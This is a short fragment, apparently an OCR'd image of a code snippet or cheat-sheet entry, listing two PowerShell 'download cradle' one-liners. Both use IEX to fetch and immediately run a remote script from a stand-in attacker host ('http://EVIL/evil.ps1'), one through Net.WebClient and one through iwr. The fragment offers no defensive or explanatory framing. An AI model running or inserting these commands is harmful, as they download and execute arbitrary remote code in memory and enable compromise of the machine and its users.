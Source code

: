 # normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')
